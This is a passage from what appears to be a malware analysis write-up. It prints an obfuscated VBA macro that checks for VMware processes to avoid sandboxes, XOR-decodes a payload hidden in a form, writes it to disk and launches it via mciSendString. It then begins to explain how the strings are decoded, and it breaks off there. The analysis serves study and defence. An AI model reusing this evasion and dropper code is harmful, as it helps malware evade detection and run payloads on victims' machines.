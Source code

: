 ```java
    Set fudgel = GetObject(rigmarole(onzo(7)))
    Set twattling = fudgel.ExecQuery(rigmarole(onzo(8)), , 48)
    For Each p In twattling
        Dim pos As Integer
        pos = InStr(LCase(p.Name), "vmw") + InStr(LCase(p.Name), "vmt") + InStr(LCase(p.Name), rigmarole(onzo(9)))
        If pos > 0 Then
            MsgBox rigmarole(onzo(4)), vbCritical, rigmarole(onzo(6))
            End
        End If
    Next
        
    xertz = Array(&H11, &H22, &H33, &H44, &H55, &H66, &H77, &H88, &H99, &HAA, &HBB, &HCC, &HDD, &HEE)

    wabbit = canoodle(F.T.Text, 0, 168667, xertz)
    mf = Environ(rigmarole(onzo(0))) & rigmarole(onzo(1))
    Open mf For Binary Lock Read Write As #fn
      Put #fn, , wabbit
    Close #fn
    
    mucolerd = mciSendString(rigmarole(onzo(2)) & mf, 0&, 0, 0)
End Function

Function canoodle(panjandrum As String, ardylo As Integer, s As Long, bibble As Variant) As Byte()
    Dim quean As Long
    Dim cattywampus As Long
    Dim kerfuffle() As Byte
    ReDim kerfuffle(s)
    quean = 0
    For cattywampus = 1 To Len(panjandrum) Step 4
        kerfuffle(quean) = CByte("&H" & Mid(panjandrum, cattywampus + ardylo, 2)) Xor bibble(quean Mod (UBound(bibble) + 1))
        quean = quean + 1
        If quean = UBound(kerfuffle) Then
            Exit For
        End If
    Next cattywampus
    canoodle = kerfuffle
End Function

```

In folderol function, we see that the function Split is being called with the VBName F, and access F.T, but F macro is shown as empty, let's investigate:


# Decoding strings

The ***F*** variable is a reference to a VBA form, you can see that is a simple user interface with encoded and encrypted data, take a look
